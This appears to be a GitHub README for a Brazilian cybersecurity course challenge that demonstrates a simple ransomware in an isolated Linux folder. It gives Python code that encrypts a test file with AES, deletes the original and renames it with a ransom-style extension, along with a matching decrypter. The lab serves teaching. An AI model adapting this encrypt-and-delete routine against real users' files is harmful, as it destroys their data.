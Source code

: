 # projeto_ransomware_DIO
Desafio ransomware Dio ciberseguranca

DESAFIO RANSOMWARE

	Em um ambiente controlado vamos realizar o necessario para testar um ransomware criado
	em ambiente linux.
	Todos os prints ilustrativos estão em uma pasta junto do repositorio enumeradas conforme descrito abaixo.
	
	# Vamos criar uma pasta para isolar o teste: [print 01]
		mkdir -p projeto/ransomware
		
	# Dentro desta pasta vamos fazer os 3 arquivos necessarios para testar o ransomware. [print 02]
		> touch teste.txt [contendo um texto qualquer para ser o alvo]
		> touch encrypter.py [será o agente malicioso para fazer a ação de criptografia]
		> touch decrypter.py [será o antidoto para o agente malicioso]
		
	# No arquivo teste.txt escreva um texto qualquer:
		> nano teste.txt [print 03]
		>> Este arquivo esta legivel sem criptografia [print 04]
		
	# Para criar o arquivo de criptografar e descriptografar vc precisa instalar a 
	biblioteca do python "pyaes" com o seguinte comando: [antes, fazer algumas verificacoes necessarias]
		> sudo apt update
		> sudo apt install python3-pip
		> sudo apt install python3-pyaes [print 05]
		
	# Proximo passo eh criar o arquivo 'encrypter.py' pelo comando 'nano encrypter.py' 
		[print 06]
		> import os
		> import pyaes
		
		## abrir o arquivo a ser criptografado
		> file_name = 'teste.txt'
		> file = open(file_name, 'rb')
		> file_data = file.read()
		> file.close()
		
		## remover o arquivo original
		> os.remove(file_name)
		
		## definir a chave de encriptacao
		> key = b"testeransomwares"
		> aes = pyaes.AESModeOfOperationCTR(key)
		
		## criptografar o arquivo
		> crypto_data = aes.encrypt(file_data)
		
		## salvar o criptografado
		> new_file = file_name + '.ransomwaretroll'
		> new_file = open(f'{new_file}', 'wb')
		> new_file.write(crypto_data)
		> new_file.close()
		
	# Proximo passo eh criar o arquivo 'decrypter.py' pelo comando 'nano decrypter.py'
		[print 07]
		> import os
		> import pyaes
		
		## abrir o arquivo criptografado
		> file_name = 'teste.txt.ransomwaretroll'
		> file = open(file_name, 'rb')
		> file_data = file.read()
		> file.close()
		
		## chave de descriptografia
		> key = b"testeransomwares"
		> aes = pyaes.AESModeOfOperationCTR(key)
		> decrypt_data = aes.decrypt(file_data)
		
		## remover o arquivo original
		> os.remove(file_name)
		
		## salvar o novo arquivo descriptografado
		> new_file = 'teste.txt'
		> new_file = open(f'{new_file}', 'wb')
		> new_file.write(decrypt_data)
		> new_file.close()
		
		
	# Apos criado os arquivos, execute o arquivo encrypter.py [print 08]
	# Logo verifique a pasta e ira perceber a mudanca no arquivo teste.txt contendo uma extensao no nome "teste.txt.ransomwaretroll" [print 09]
	# Abra o arquivo e verifique que o conteudo do arquivo esta criptografado [print 10 e 11]
	# Execute o arquivo 'decrypter.py' para desfazer a acao. [print 12]
	# Verifique novamente a pasta e verá o arquivo 'texte.txt' voltar ao normal sem a extensão maliciosa. [print 13]
	# Agora abra o arquivo 'teste.txt' e veja que o texto voltou a integridade. [print 14]
		
